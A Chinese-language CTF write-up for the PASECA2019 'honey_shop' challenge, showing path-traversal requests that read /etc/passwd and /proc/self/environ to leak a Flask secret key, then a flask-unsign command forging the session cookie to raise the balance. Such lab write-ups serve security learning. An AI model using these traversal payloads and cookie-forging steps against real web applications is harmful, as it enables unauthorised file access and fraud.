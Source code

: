 # \[PASECA2019]honey\_shop

## \[PASECA2019]honey\_shop

## 考点

* LFI
* 任意文件下载
* Flask伪造session

## wp

提示有1336块钱，买flag需要1337块钱。

发现存在session内容如下

```
eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.YmkaXQ.fruZujDjSk6Qq1MSDRQGKuX8NVw
```

flask-unsign解码一下，得到`{'balance': 1336, 'purchases': []}`，看来需要获取secret\_key修改session来购买flag

试了一下，整个页面除了购买外，只有图片可以点

![](<../../.gitbook/assets/image (23) (1) (1).png>)

尝试任意文件下载，发现/download?image=../../etc/passwd可以下载文件

![](<../../.gitbook/assets/image (35) (1).png>)

访问/download?image=../../proc/self/cmdline，得到运行目录app/app.py

访问/download?image=../../proc/self/environ得到SECRET\_KEY=eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F

![](<../../.gitbook/assets/image (4).png>)

重新加密session，`flask-unsign.exe --secret "eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F" --sign --cookie "{'balance': 2000, 'purchases': []}"`，得到`eyJiYWxhbmNlIjoyMDAwLCJwdXJjaGFzZXMiOltdfQ.YmkdOg.P80Or5syU9nQrh8nURtyyqinVUY`

修改session购买flag即可

